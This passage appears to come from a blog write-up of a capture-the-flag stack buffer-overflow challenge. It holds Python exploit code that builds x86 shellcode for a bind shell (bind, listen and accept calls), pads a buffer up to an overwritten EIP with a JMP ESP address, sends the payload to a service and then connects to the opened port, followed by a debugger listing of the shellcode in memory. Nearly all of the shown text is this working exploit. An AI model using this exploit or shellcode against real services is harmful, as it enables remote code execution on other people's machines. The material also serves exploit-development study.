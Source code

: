 ``` python
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
block1 += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
block1 += "\x6A\x10"                           # PUSH 0x10
block1 += "\x51"                               # PUSH ECX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `bind`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
block1 += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
block1 += "\x6A\x7F"                           # PUSH 0x7F
block1 += "\x57"                               # PUSH EDI
# invoke the call to `listen`
block1 += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `accept`
block1 += "\xB3\x24"                           # MOV BL, 0x24
# prepare the parameters on the stack for the `accept` call
block1 += "\x57"                               # PUSH EDI
# invoke the call to `accept`
block1 += "\xFF\xD3"                           # CALL EBX
# set a breakpoint so we can see what's going on
block1 += "\xCC"

command  = ""
command += "Z" * (offsets['SC'] - len(command))
command += "B" * (offsets['EIP'] - len(command))
command += struct.pack("<L", target['JMPESP'])
command += "C" * (offsets['ESP'] - len(command))
command += block1
command += "E" * (max_size - len(command))

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn("AAA", port + 1)
```

Resulting shellcode that appears in memory looks like this:

``` txt
00B5FFC0   83EC 7C          SUB ESP,7C
00B5FFC3   BB 44343440      MOV EBX,40343444
00B5FFC8   C1EB 08          SHR EBX,8
00B5FFCB   B0 06            MOV AL,6
00B5FFCD   50               PUSH EAX
00B5FFCE   B0 01            MOV AL,1
00B5FFD0   50               PUSH EAX
00B5FFD1   40               INC EAX
00B5FFD2   50               PUSH EAX
00B5FFD3   FFD3             CALL EBX
00B5FFD5   89C7             MOV EDI,EAX
00B5FFD7   89D9             MOV ECX,EBX
00B5FFD9   B5 74            MOV CH,74
00B5FFDB   FE41 03          INC BYTE PTR DS:[ECX+3]
00B5FFDE   B3 54            MOV BL,54
00B5FFE0   6A 10            PUSH 10
00B5FFE2   51               PUSH ECX
```

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux